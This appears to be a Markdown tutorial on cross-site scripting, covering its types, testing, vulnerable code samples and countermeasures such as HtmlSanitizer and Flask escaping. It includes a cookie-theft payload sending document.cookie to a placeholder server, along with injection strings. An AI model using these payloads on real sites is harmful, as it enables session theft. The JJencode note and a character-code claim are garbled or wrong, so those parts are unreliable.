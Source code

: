 # XSS 

## Lexic

* [JavaScript](items/javascript.md)
* [Cookies](items/cookies.md)
* [Web Client](items/web_client.md)
* [Web Server](items/web_server.md)
* [XMLHttpRequest](items/xhr.md)
* [WAF](items/waf.md)
* [Proxy](items/proxy.md)
* [SOP](items/sop.md)
* [HTML](items/html.md)
* [DOM](items/dom.md)

## Nomenclature 
### XSS stands for:
Cross Site Scripting
### Exploitability
Easy / Medium / Difficult according to the context
### Impact : 
Several: `disfigurements, theft of cookie, unauthorized files access, DoS, control victim browser, ` 
# Cross Site Scripting 
-----
## Overview 
The XSS attack is an attack realized when data submit from end user is `interpretted by a browser` through [Javascript](items/javascript.md) language mostly.
It is classified among `injection attacks`.  Early on, it was categorized as **three** kinds, `stored`, `DOM based` and `reflected`. 
* These three types were defined as follows :

  * __Stored XSS__: generally occurs when server stocks submitted data from one user and then this data could be seen by others users : in a message log, in user log, in user credentials, in message form, in user cv.
 
 `Client -> Server -> Users of the site (possibily including attacker)`

  * __Reflected XSS__ : when the user supplied data is automatically replied to the same user without escapping from the server.
 
 `Client -> Server -> Client`

  * __DOM based XSS__ : when the user input is not sent to the server but is used to automatically update its `DOM`.
 
 `Client -> Client`

* This classification was quickly deprecated. To clarify it, the research community proposed two new terms to help organize the types of XSS that can occur :
  * **Server XSS**
  * **Client XSS**

### Server XSS 
---
Server XSS occurs when untrusted data from user is replied with server generated HTML. In this case, the entire vulnerability is in **server-side code**, and the browser is simply rendering the response and executing any valid script embedded within it.

### Client XSS
----
Client XSS occurs when `untrusted data` is used to update the `DOM` with an unsafe call of **client-side script**. 

## How to test for XSS 
* `Graybox` test is the best way to test for XSS. Each HTTP data input and printed after could possibly be an XSS attack vector if the input is not escapped. 
For example this code is vulnerable.
```
    <?php
    echo 'Hello <h1>' .$_GET["name"]. '!</h1>';
    ?>
```
If the value of name is ```</h1><script>alert('xss');</script><h1>``` the browser will get the following answer from the server 
```
    <h1>!</h1>
    <script>alert('xss');</script>
    <h1></h1>
```	


* The best way to perform `black blackbox` XSS test in server is to use a `proxy`, `dirbust` the website and `analyze` all submitted data to the server and inject some HTML characters and analyse the server responses. Submit to check :
  * HTTP headers
  * URL parameters, query string
  * Request body, form data
  * Cookies, API storage 

From all the website submits listed, test with HTML chars (html entities), and look the render in browser. If it is not well escaped (the result is not HTML special character), probably the website is XSS vulnerable.

 
---
## Examples     
### Example 1 : cookie theft 
This code will send the cookie of the user who visit the website containing this payload. 

```
    <img src="nonExistImg" onerror="myFunction()"/>
    <script>function myFunction(){
	window.location = "http://myServer/?cookie".concat("=", document.cookie);
	}
    </script>
```

### Example 2 : XSS with weak js function 

```	
    myFunction(){
	myImg.src = document.getElementById('imgId').value; 
	document.body.appendChild(myImg); 
	}

```
If the user sends ```'); alert('xss'); document.getElement('``` the code will become ```myImg.src = document.getElementById(''); alert('xss'); document.getElementById('imgId').value;```

### Example 3 : Bad escapping
```
   myFunction(){
	userInputEscapped = userInput.replace('<script>', ' ');
	document.appendChild(userInputEscapped);
	}

```
This function appends to the document body the user input. It replaces the user input containing <script> by " ". 
For example, if a user inputs ```<script>alert("test");</script>``` the result will be ```alert("test");``` and then will not be executed.
This kind of escapping is very unuseful. If the attacker choose ```<SCRIPT>alert('test');</SCRIPT>``` the replace method is case sensitive, so the js script will be executed. 
``` 
myFunction(){
	userInputEscapped = userInput.replace('"', ' '); 
	document.body.appendChild(userInputEscapped); 
	}
  ```
In this example the quote char is replaced with ' '. An attacker could attack this implementation by using ```String.fromCharCode(35,120,115,115,34);``` to get ```alert("XSS")```.

### Obfuscation
`Obfuscation` is the deliberate act of creating source or machine code that is difficult for humans to understand. Like obfuscation in natural language, it may use needlessly roundabout expressions to compose statements. Programmers may deliberately obfuscate code to conceal its purpose (security through obscurity) or its logic or implicit values embedded in it, primarily, in order to prevent tampering, deter reverse engineering, or even as a puzzle or recreational challenge for someone reading the source code. This can be done manually or by using an automated tool, the latter being the preferred technique in industry.
#### Example:
Let's assume the following script:
```
alert("Hello, JavaScript" );
```
After an obfuscation with [JJencode](http://utf-8.jp/public/jjencode.html); it looks like:
```
$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:
(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+
($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")
[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_]
[$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"(\\\"\\"+$.__$+$.__$+$.___+$.$$$_+
(![]+"")[$._$_]+(![]+"")[$._$_]+$._$+",\\"+$.$__+$.___+"\\"+$.__$+$.__$+$._$_+$.$_$_+"\\"+$.__$+$.$$_+$.$$_+$.$_$_+"
\\"+$.__$+$._$_+$._$$+$.$$__+"\\"+$.__$+$.$$_+$._$_+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$$_+$.___+$.__+"
\\\"\\"+$.$__+$.___+")"+"\"")())();
```
Note : Note that the **ENCODED** above does not appear in encoded files, rather it is the location where the encoded 
host code would appear. Also note that this algorithm does not work in direct mode (that is, putting it in a .js won’t 
work) because it requires a feature that was introduced in HTML 4.0. As a result, it must appear in an HTML page, and that HTML page must declare its need for HTML 4.0 or later using a declaration like this:
```<!DOCTYPE html PUBLIC “-//W3C//DTD HTML 4.0//EN”>```
The **HTML 4.0** 4.0’ string can be replaced by later versions, such as ‘HTML 4.1’ or ‘XHTML 1.0’, etc.

## Counter Measures
* **Rule #1**: **NEVER** trust client. Always perform `input validation` at every single posted by the user to the server. This includes `escaping`, `filtering` and checking everything related to data submit.
* **Rule #2**: Always update `plugins`, `modules`, `core` and all plugged packaged being used in web systems. Indeed, this contributes in limiting XSS flaws risks. This requires mastering and knowing each item used in the system/web site.
* **Rule #3**: `Disable`/`remove` unuseful features/modules cause `more one's web site embeds packages, higher is the risk of XSS vulnerability presence` mostly in CMSs.
* **Rule #4**: Think of using a [WAF](items/waf.md) and think of `deofuscation` methods.
* **Rule #5**: Implement [SOP](items/sop.md) policy `properly`.
 
 Now let's pick up some server side programming languages for more `accurate ` counter measures implementations.
 ### PHP
 -----
 
 ### ASP.Net
 -----
 
 ### C#
 -----
 #### HtmlSanitizer

HtmlSanitizer is a .NET library for cleaning HTML fragments and documents from constructs that can lead to [XSS attacks](https://en.wikipedia.org/wiki/Cross-site_scripting).
It uses [AngleSharp](https://github.com/AngleSharp/AngleSharp) to parse, manipulate, and render HTML and CSS.

Because HtmlSanitizer is based on a robust HTML parser it can also shield you from deliberate or accidental
"tag poisoning" where invalid HTML in one fragment can corrupt the whole document leading to broken layout or style.

In order to facilitate different use cases, HtmlSanitizer can be customized at several levels:
   
- Configure allowed HTML tags through the property `AllowedTags`. All other tags will be stripped.
- Configure allowed HTML attributes through the property `AllowedAttributes`. All other attributes will be stripped.
- Configure allowed CSS property names through the property `AllowedCssProperties`. All other styles will be stripped.
- Configure allowed CSS [at-rules](https://developer.mozilla.org/en-US/docs/Web/CSS/At-rule) through the property `AllowedAtRules`. All other at-rules will be stripped.
- Configure allowed URI schemes through the property `AllowedSchemes`. All other URIs will be stripped.
- Configure HTML attributes that contain URIs (such as "src", "href" etc.) through the property `UriAttributes`.
- Provide a base URI that will be used to resolve relative URIs against.
- Cancelable events are raised before a tag, attribute, or style is removed.

#### Tags allowed by default
`a, abbr, acronym, address, area, article, aside, b, bdi, big, blockquote, br, button, caption, center, cite, code, col, colgroup, data, datalist, dd, del, details, dfn, dir, div, dl, dt, em, fieldset, figcaption, figure, font, footer, form, h1, h2, h3, h4, h5, h6, header, hr, i, img, input, ins, kbd, keygen, label, legend, li, main, map, mark, menu, menuitem, meter, nav, ol, optgroup, option, output, p, pre, progress, q, rp, rt, ruby, s, samp, section, select, small, span, strike, strong, sub, summary, sup, table, tbody, td, textarea, tfoot, th, thead, time, tr, tt, u, ul, var, wbr`

#### Attributes allowed by default
`abbr, accept, accept-charset, accesskey, action, align, alt, autocomplete, autosave, axis, bgcolor, border, cellpadding, cellspacing, challenge, char, charoff, charset, checked, cite, clear, color, cols, colspan, compact, contenteditable, coords, datetime, dir, disabled, draggable, dropzone, enctype, for, frame, headers, height, high, href, hreflang, hspace, ismap, keytype, label, lang, list, longdesc, low, max, maxlength, media, method, min, multiple, name, nohref, noshade, novalidate, nowrap, open, optimum, pattern, placeholder, prompt, pubdate, radiogroup, readonly, rel, required, rev, reversed, rows, rowspan, rules, scope, selected, shape, size, span, spellcheck, src, start, step, style, summary, tabindex, target, title, type, usemap, valign, value, vspace, width, wrap`

_Note:_ to prevent [classjacking](https://html5sec.org/#123) and interference with classes where the sanitized fragment is to be integrated, the `class` attribute is not in the whitelist by default. 
It can be added as follows:
```C#
var sanitizer = new HtmlSanitizer();
sanitizer.AllowedAttributes.Add("class");
var sanitized = sanitizer.Sanitize(html);
```

#### CSS properties allowed by default
`background, background-attachment, background-color, background-image, background-position, background-repeat, border, border-bottom, border-bottom-color, border-bottom-style, border-bottom-width, border-collapse, border-color, border-left, border-left-color, border-left-style, border-left-width, border-right, border-right-color, border-right-style, border-right-width, border-spacing, border-style, border-top, border-top-color, border-top-style, border-top-width, border-width, bottom, caption-side, clear, clip, color, content, counter-increment, counter-reset, cursor, direction, display, empty-cells, float, font, font-family, font-size, font-style, font-variant, font-weight, height, left, letter-spacing, line-height, list-style, list-style-image, list-style-position, list-style-type, margin, margin-bottom, margin-left, margin-right, margin-top, max-height, max-width, min-height, min-width, opacity, orphans, outline, outline-color, outline-style, outline-width, overflow, padding, padding-bottom, padding-left, padding-right, padding-top, page-break-after, page-break-before, page-break-inside, quotes, right, table-layout, text-align, text-decoration, text-indent, text-transform, top, unicode-bidi, vertical-align, visibility, white-space, widows, width, word-spacing, z-index`

#### CSS at-rules allowed by default
`namespace, style`

`style` refers to style declarations within other at-rules such as `@media`. Disallowing `@namespace` while allowing other types of at-rules can lead to errors.
Property declarations in `@font-face` and `@viewport` are not sanitized.

_Note:_ the `style` tag is disallowed by default.

#### URI schemes allowed by default
``http, https``

_Note:_ [Protocol-relative URLs](http://en.wikipedia.org/wiki/Wikipedia:Protocol-relative_URL)  (e.g. <a href="//github.com">//github.com</a>) are allowed by default (as are other relative URLs).

to allow `mailto:` links: 

```C#
sanitizer.AllowedSchemes.Add("mailto");
```

#### Default attributes that contain URIs
`action, background, dynsrc, href, lowsrc, src`

#### Thread safety

The `Sanitize()` and `SanitizeDocument()` methods are thread-safe, i.e. you can use these methods on a single shared instance from different threads provided you do not simultaneously set instance or static properties. A typical use case is that you prepare an `HtmlSanitizer` instance once (i.e. set desired properties such as `AllowedTags` etc.) from a single thread, then call `Sanitize()`/`SanitizeDocument()` from multiple threads.

#### Text content not necessarily preserved as-is

Please note that as the input is parsed by AngleSharp's HTML parser and then rendered back out, you cannot expect the text content to be preserved exactly as it was input, even if no elements or attributes were removed. Examples:

- `4 < 5` becomes `4 &lt; 5`
- `<SPAN>test</p>` becomes `<span>test<p></p></span>`
- `<span title='test'>test</span>` becomes `<span title="test">test</span>`

On the other hand, although some broken HTML is fixed by the parser, the output might still contain invalid HTML. Examples:

- `<div><li>test</li></div>`
- `<ul><br><li>test</li></ul>`
- `<h3><p>test</p></h3>`

##### Usage
-----

Install the [HtmlSanitizer NuGet package](https://www.nuget.org/packages/HtmlSanitizer/). Then:

```C#
var sanitizer = new HtmlSanitizer();
var html = @"<script>alert('xss')</script><div onload=""alert('xss')"""
    + @"style=""background-color: test"">Test<img src=""test.gif"""
    + @"style=""background-image: url(javascript:alert('xss')); margin: 10px""></div>";
var sanitized = sanitizer.Sanitize(html, "http://www.example.com");
Assert.That(sanitized, Is.EqualTo(@"<div style=""background-color: test"">"
    + @"Test<img style=""margin: 10px"" src=""http://www.example.com/test.gif""></div>"));
```

##### Example
```
using System;
using Ganss.XSS;


					
public class Program
{
	public static void Main()
	{
		var sanitizer = new HtmlSanitizer();
var html = @"<script>alert('xss')</script><div onload=""alert('xss')"""
    + @"style=""background-color: test"">Test<img src=""test.gif"""
    + @"style=""background-image: url(javascript:alert('xss')); margin: 10px""></div>";
var sanitized = sanitizer.Sanitize(html, "http://www.example.com");
	Console.WriteLine(sanitized);	
	}
}
```
This is the resulting output:
```
<div style="background-color: test">Test<img src="http://www.example.com/test.gif" style="margin: 10px"></div>
```

There's an [online demo](http://xss.ganss.org/), plus there's also a [.NET Fiddle](https://dotnetfiddle.net/qqpiDh) you can play with.

#### Reference
[OWASP Html C# Sanitizer](https://github.com/mganss/HtmlSanitizer/edit/master/README.md)


 ### Java
 -----
 
 ### Node.JS
 -----
 
 ### Python
 -----
 
  #### Incorrect
  In this part, we will be dealing the Python [Flask library](items/flask.md).
The following is a contrived example of how a **reflected XSS** exploit may occur. If an attacker were to submit a request to `http://example.com/?name=<script>alert(1)</script>` then any user viewing that url would have the javascript executed within the context of their browser.
```
# flask example
@app.route("/")
def hello():
    name = request.args.get('name')
    return "Hello %s" % name
```
  #### Correct
The correct way to prevent XSS attacks is to validate user input and ensure that data rendered by templates is escaped. Using templates in the way they are intended is preferable:
```
# flask example
@app.route("/")
def hello():
    name = request.args.get('name')
    return render('hello.html', name=name)

# where hello.html is:
# <html>Hello {{ name }}</html>
```

Any HTML content that is generated directly within a request handler should use the appropriate escaping function:
```
from flask import escape
@app.route("/")
def hello():
    name = request.args.get('name')
    return "Hello %s" % escape(name)
```
  #### Allowing certain special characters
  The issue is made more complex when we encounter situations where `we need to allow a specific set of special characters, such as the ability to post content containing HTML tags`. In this situation we can either:
  * accept only known good data, 
  * or we can deny all known bad data. 
  Both approaches have pros and cons, with the specific choice of implementation being dependent on the given application. In general however, the following should be the list of priorities:

* **Encoding** - Replace ALL control characters with known safe alternatives
* **Positive validation (whitelist)** - Only allow a specific set of values
* **Negative validation (blacklist)** - Block a specified list of dangerous values

In cases where `positive validation` is used, it should also be coupled with additional sanitization. For example, when allowing certain HTML tags, certain attributes of those tags should be removed, such as event handlers. e.g.:
```
<img src='someimage.jpg' onload='do_evil()'/>
```
Again, the preferable approach is to only `allow known safe attributes`, and sanitize the content of those attribute values. If the content is not sanitized, the following vulnerable code could occur:
```
function add_image(link) {
  document.write('<img src="' + link + '"'></img>'');
}
```
If the preceding JavaScript function is called with the link parameter containing the following value, the function can be exploited to execute arbitrary code:
```
x" onerror="do_evil()
```
A more secure implementation of the above would be:
```
function add_image(link) {
  clean = link.replace(/"/g, '&quot;');
  document.write('<img src="' + clean + '"'></img>'');
}
Note, this is a very specific example for illustration. A more comprehensive approach to sanitization should be taken for larger applications.
```
[Here](items/activates.md) is properly enough written library to help defend against XSS injections.
